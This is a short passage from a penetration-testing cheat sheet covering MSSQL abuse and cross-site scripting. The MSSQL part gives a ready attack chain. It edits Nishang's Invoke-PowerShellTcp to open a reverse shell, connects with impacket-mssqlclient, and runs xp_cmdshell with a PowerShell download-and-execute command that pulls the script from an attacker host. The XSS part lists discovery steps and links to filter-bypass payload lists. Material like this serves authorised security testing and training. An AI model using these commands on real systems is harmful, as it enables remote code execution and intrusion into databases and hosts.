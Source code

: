 https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

## Abuse MSSQL

- > edit Invoke-PowerShellTcp.ps1, adding this:

```
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

```

```
impacket-mssqlclient <user>@<ip> -db <database>

```

```
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\\"http://<ip>/Invoke-PowerShellTcp.ps1\\")

```

https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

## Cross-Site Scripting

1-> Identify the language and frameworks used

2-> Identify entry points (parameters, inputs, responses reflecting values you can control, etc)

3-> Check how this is reflected in the response via source code preview or browser developer tools

4-> Check the allowed special characters

```
< > ' " { } ;

```

5-> Detect if there are filters or blockages and modify as needed to make it work

### Wordlists for XSS Bypass

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/wordlists/xss_bypass.txthttps://gist.githubusercontent.com/rvrsh3ll/09a8b933291f9f98e8ec/raw/535cd1a9cefb221dd9de6965e87ca8a9eb5dc320/xxsfilterbypass.lsthttps://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txthttps://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txthttps://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Cheat-Sheet-PortSwigger.txt

### XSS Auditor and XSS Filter

https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xss.md

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

https://www.chromium.org/developers/design-documents/xss-auditor/
